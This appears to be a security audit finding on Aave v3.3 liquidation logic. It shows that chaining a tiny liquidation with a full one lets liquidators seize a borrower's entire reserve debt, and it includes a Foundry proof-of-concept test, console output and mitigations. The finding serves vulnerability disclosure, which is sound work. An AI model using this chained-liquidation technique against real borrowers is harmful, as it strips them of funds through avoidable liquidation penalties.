Trendy Ceramic Worm

Medium

# Low debt reserves can be fully liquidated even with HF > 0.95

### Summary

In Aave v3.2, the optimal strategy during liquidation was to always liquidate up to the `maxLiquidatableDebt` for each reserve. In cases where HF > 0.95, this was consistently 50% of a given debt reserve, regardless of reserve debt size.

In Aave v3.3, all low (~2000$+) reserve debts can now be fully liquidated through chained liquidation. The first transaction will reduces the reserve debt below the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD`, and the second fully liquidates the remaining debt. This approach ensures the best ROI for liquidators.

In the Aave v3.3 users should be aware that if their reserve debt is below the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD`, it will be fully liquidated if the HF drops below 1. 

However, in situation where reserve debt is above the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD` and is fully liquidated, presenting a significant disadvantage for users.

### Root Cause

The issue originate from the fact that there is no minimum limit on the `debtToCover` amount that a liquidator must use to liquidate a position. A liquidator can use even a small amount (e.g., $5) to reduce the user reserve debt below the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD` and then fully liquidate the debt within chained transactions. This is possible as repaying $5–$50 of debt does not bring the HF back above 1 in most cases.

https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/protocol/libraries/logic/LiquidationLogic.sol#L283-L287

### Internal Pre-conditions

1. The user reserve debt is slightly above the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD`.
2. The current HF is below 1 but above 0.95.
3. The given debt reserve is more than half of the total debt.

### External Pre-conditions

None.

### Attack Path

1. A liquidator notices that the user HF drops below 1 and that their reserve debt is slightly above the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD`.
2. The liquidator calculates whether a repayment can reduce the debt below the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD` without bringing the HF back to 1 or higher.
3. If true, the liquidator performs a chained liquidation. The first step reduces the reserve debt below the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD`, and the second liquidates the remaining debt in full.

### Impact

- Direct loss of funds for the user. Under Aave v3.2, users would only be liquidated for half of their reserve debt, typically bringing the HF above 1. In Aave v3.3, users incur liquidation penalties on their entire reserve debt.

### PoC

Add the following to `Pool.Liquidations.CloseFactor.t.sol` to demonstrate the issue:

```solidity
function test_PoC_New_Best_ROI() external {
    _supplyToPool(tokenList.usdx, bob, 2300e6);
    _borrowToBeBelowHf(bob, tokenList.weth, 0.97 ether);
    console.log("User supply 2300$ worth of assets");
    console.log("User borrow ~2040$ worth of WETH");
    console.log("HF is ~0.97");

    vm.prank(liquidator);
    IERC20Detailed(tokenList.weth).approve(address(contracts.poolProxy), type(uint256).max);
    vm.startPrank(liquidator);

    // Chained liquidation - can be called in one tx from helper contract
    console.log("Repay ~50$ of debt to go below MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD");
    contracts.poolProxy.liquidationCall(
      tokenList.usdx,
      tokenList.weth,
      bob,
      3e16,
      false
    );

    console.log("Liquidate rest of debt reserve ~1990$ worth");
    contracts.poolProxy.liquidationCall(
      tokenList.usdx,
      tokenList.weth,
      bob,
      2e18,
      false
    );
}

function test_PoC_Old_Best_ROI() external {
    _supplyToPool(tokenList.usdx, bob, 2300e6);
    _borrowToBeBelowHf(bob, tokenList.weth, 0.97 ether);
    console.log("User supply 2300$ worth of assets");
    console.log("User borrow ~2040$ worth of WETH");
    console.log("HF is ~0.97");

    vm.prank(liquidator);
    IERC20Detailed(tokenList.weth).approve(address(contracts.poolProxy), type(uint256).max);
    vm.startPrank(liquidator);

    console.log("Repay max possible ~1029$");
    contracts.poolProxy.liquidationCall(
      tokenList.usdx,
      tokenList.weth,
      bob,
      2e18,
      false
    );

    console.log("Rest is non-liquidatable as HF > 1");
    vm.expectRevert(bytes(Errors.HEALTH_FACTOR_NOT_BELOW_THRESHOLD));
    contracts.poolProxy.liquidationCall(
      tokenList.usdx,
      tokenList.weth,
      bob,
      2e18,
      false
    );
}
```

Console log:

```text
[PASS] test_PoC_New_Best_ROI() (gas: 817734)
Logs:
  User supply 2300$ worth of assets
  User borrow ~2040$ worth of WETH
  HF is ~0.97
  Repay ~50$ of debt to go below MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD
  Liquidate rest of debt reserve ~1990$ worth

[PASS] test_PoC_Old_Best_ROI() (gas: 765363)
Logs:
  User supply 2300$ worth of assets
  User borrow ~2040$ worth of WETH
  HF is ~0.97
  Repay max possible ~1029$
  Rest is non-liquidatable as HF > 1
```

As can be seen in first test the whole debt can be liquidated even that it was above `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD`, and if liquidated within `DEFAULT_LIQUIDATION_CLOSE_FACTOR` the HF will be above 1.

### Mitigation

- Consider implementing a minimum `debtToCover` requirement when the debt exceeds the `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD`.
- Reevaluate `MIN_BASE_MAX_CLOSE_FACTOR_THRESHOLD` values across different chains.